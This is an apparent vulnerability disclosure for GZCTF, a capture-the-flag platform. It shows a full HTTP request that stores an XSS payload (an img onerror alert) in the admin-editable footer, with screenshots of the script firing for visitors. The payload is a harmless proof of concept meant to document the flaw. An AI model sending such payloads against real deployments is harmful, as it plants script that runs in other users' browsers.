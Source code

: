 # GZCTF XSS

After v0.15.6, the product imports a new feature that allows user to edit footer by using HTML. To reproduce this vulnerability, [deploy this product by using Docker](https://docs.ctf.gzti.me/deployment/docker-k8s).

Firstly, steal an account token which is administrator privilege.

Construct the payload like the following

```
PUT /api/admin/config HTTP/2
Host: **
Cookie: GZCTF_Token=**
Content-Length: 316
Sec-Ch-Ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36

{"globalConfig":{"title":"","slogan":"Hack for fun not for profit","footerInfo":"<img src=\"1.jpg\" onerror=alert(1)>"},"accountPolicy":{"allowRegister":true,"activeOnRegister":true,"useGoogleRecaptcha":false,"emailConfirmationRequired":false,"emailDomainList":""},"gamePolicy":{"autoDestroyOnLimitReached":false}}
```

The key `footerinfo` is inject point. Due to lax validation, there is XSS vulnerability here.

# Snapshots

1. Send this payload and receive a 200 response.
![](./imgs/1.png)

2. Anyone who tries to visit home page will receive an alert.
![](./imgs/2.png)

3. Also thert is an error icon in footer.
![](./imgs/3.png)
